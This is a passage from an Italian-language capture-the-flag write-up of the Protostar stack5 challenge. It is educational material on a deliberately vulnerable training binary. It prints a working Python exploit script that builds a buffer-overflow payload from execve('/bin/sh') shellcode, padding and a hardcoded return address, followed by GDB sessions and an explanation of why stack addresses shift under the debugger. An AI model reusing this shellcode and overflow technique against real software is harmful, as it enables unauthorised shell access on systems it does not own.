 \begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{stack5-payload.py}
\begin{verbatim}
#!/usr/bin/python

#parametri da impostare
length = 76
ret = '\xa0\xfc\xff\xbf'

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80";
padding = 'a' * (length - len(shellcode))

payload = shellcode + padding + ret
print payload
\end{verbatim}
\end{mdframed}
Salviamo anche in questo caso l'intero input su un file:
\begin{center}
    \texttt{python stack5-payload.py > /tmp/payload}
\end{center}
Eseguiamo \texttt{stack5} con GDB:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5..done
(gdb) r < /tmp/payload
Starting program: /opt/protostar/bin/stack5 < /tmp/payload
Executing new program: /bin/dash

Program exited normally
(gdb) _
\end{lstlisting}
\end{mdframed}
Lanciando il programma in GDB, viene eseguita \texttt{/bin/dash} ma termina immediatamente. Invece se lo eseguiamo fuori da GDB va in crash:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack5 < /tmp/payload
Segmentation fault
$ _
\end{lstlisting}
\end{mdframed}
È possibile che il debugger GDB abbia aggiunto alcune variabili di ambiente nel processo esaminato (\texttt{stack5}). Se ciò accade, cambia la composizione di \texttt{envp}, e di conseguenza cambiano anche la posizione degli stack frame, dell'indirizzo di \texttt{buffer}, e l'input malizioso sovrascrive EIP con un indirizzo che non è più l'inizio dello shellcode. Nelle sfide precedenti si è fatto riferimento a un indirizzo di una funzione del programma (nell'area di codice e non nello stack), quindi non si è mai fatto riferimento ad un indirizzo assoluto sullo stack: ecco perché il problema non si è verificato. Per verificare le ipotesi stampiamo le variabili di ambiente in un terminale normale (\texttt{env}) e dentro GDB (\texttt{show env}). Scopriamo che in GDB sono presenti due variabili d'ambiente in più, in particolare abbiamo \texttt{LINES=27} e \texttt{COLUMNS=105}, che rappresentano l'ampiezza del terminale in righe e colonne. Cancelliamo le variabili in GDB con il comando \texttt{unset env LINES} e \texttt{unset env COLUMNS} e procediamo come prima, inserendo un breakpoint prima dell'istruzione \texttt{leave}, dopodiché eseguiamo il programma con l'input malizioso:


